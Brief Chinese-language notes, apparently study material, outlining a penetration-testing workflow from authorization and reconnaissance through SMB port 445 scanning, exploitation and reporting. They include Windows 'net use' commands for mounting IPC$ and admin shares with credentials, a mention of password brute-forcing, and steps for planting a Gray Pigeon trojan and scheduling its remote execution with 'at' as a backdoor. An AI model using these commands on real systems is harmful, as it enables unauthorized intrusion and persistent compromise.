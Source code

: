 # 渗透测试基本流程

# 0. 授权

# 1. 信息收集

nslookup

whois

# 2. 扫描漏洞

namp = ip 范围  端口 80 （IIS，apache，什么网站）

**scanport扫描445端口**

## 高级扫描：

如IIS漏洞2003-IIS6.0  2008IIS7.0   扫描网站漏洞（）

# 3. 漏洞利用

# 4. 提权（shell环境、桌面环境、最高权限）

# 5. 留后门

# 6. 渗透测试报告

### 手工测试端口号开放：

### telnet IP地址  测试端口

### 445漏洞利用之 IPC$:

net use f:\\10.1.1.1\share  密码 /user:用户名

net use f:\\10.1.1.1\c$  密码 /user:用户名

```cpp
**net use  \\10.1.1.1\ipc$  密码 /user:用户名**
```

### 暴力破解系统密码之445

![Untitled](Untitled%2067.png)

## 制作木马

```cpp
//利用灰鸽子软件
copy  //植入木马  
time  //查看时间  
net time //查看对方时间

at \\10.1.1.1 12:18 "c:\windows\system\xx.exe"  //设置定时任务
```